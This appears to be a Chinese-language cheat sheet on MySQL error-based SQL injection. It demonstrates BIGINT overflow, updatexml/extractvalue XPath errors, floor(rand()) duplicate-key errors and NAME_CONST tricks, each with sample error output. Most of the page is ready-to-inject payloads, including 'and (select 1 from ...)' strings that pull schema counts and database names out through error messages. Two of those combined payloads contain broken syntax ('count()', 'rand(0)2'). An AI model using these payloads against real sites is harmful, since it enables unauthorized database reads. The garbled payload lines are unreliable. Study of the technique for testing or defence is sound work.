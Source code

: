 ### 报错注入

```sql
// mysql<5.5.47
select (select(!x-~0)from(select(select user())x)a);
--- ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
```

从 mysql5.1.5 开始提供两个[XML 查询和修改的函数](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html)，extractvalue 和 updatexml。extractvalue 负责在 xml 文档中按照 xpath 语法查询节点内容，updatexml 则负责修改查询到的内容,它们的第二个参数都要求是符合 xpath 语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里：

```sql
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
--- ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
```

主键重复:实际上只要是 count，rand()，group by 三个连用就会造成这种报错，与位置无关,常见的 payload

```sql
select count(*) from test group by concat(version(),floor(rand(0)*2));
-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'


--- 查询数据库的个数：
select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata
--- payload组合语句：
and (select 1 from (select count(),concat((select (select (select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

--- 获取数据库名字：
select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1
---payload组合语句：
and (select 1 from (select count(),concat((select (select (select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

mysql 列名重复会报错

```sql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
--- ERROR 1060 (42S21): Duplicate column name '5.7.17'

select *  from(select * from test a join test b)c;
--- ERROR 1060 (42S21): Duplicate column name 'id'
select *  from(select * from test a join test b using(id))c;
--- ERROR 1060 (42S21): Duplicate column name 'name'

```
